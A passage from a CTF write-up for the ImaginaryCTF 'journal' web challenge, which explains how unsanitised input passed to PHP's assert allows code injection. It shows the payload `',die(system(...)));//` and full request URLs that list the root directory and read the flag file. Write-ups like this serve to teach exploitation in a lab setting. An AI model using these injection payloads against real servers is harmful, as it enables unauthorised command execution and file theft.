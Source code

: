 ```php

echo "</p>";
```

The code checks whether our URL parameter `file` contains a `..` using `assert`, and serves us the file if it doesn't. The problem is that the `assert` function in PHP can be used for RCE, in a similar way as `eval`. The `$file` parameter is copied as-is into the string

```
"strpos('$file', '..') === false"
```

This code is then executed by the PHP runtime. If it returns `true` (i.e. there are no `..` in `$file`), the assertion succeeds. Since the parameter is copied as-is, we can simply escape the `strpos` call and execute our own code, for example the `system` function. For example. if we request the file `',die(system('ls')));//`, the code that will be executed by `assert` is:

```php
stropos('',die(system('ls')));//', '..') === false
```

So we will call `die` with the output of `ls`, which will print the output:

```
files index.php index.php
```

Now, to get the flag, we list the contents of `/`:

```
http://journal.chal.imaginaryctf.org/?file=%27,die(system(%27ls%20/%27)));//
```

Which are:

```
bin boot dev etc flag-cARdaInFg6dD10uWQQgm.txt home kctf lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var
```
and then `cat` the flag:

```
http://journal.chal.imaginaryctf.org/?file=%27,die(system(%27cat%20/flag-cARdaInFg6dD10uWQQgm.txt%27)));//
```

Which is:

```
ictf{assertion_failed_e3106922feb13b10}
```

# web/P2C
In this challenge, we're given a Flask-based webapp:
![p2c](/assets/img/ictf2024/p2c.png)
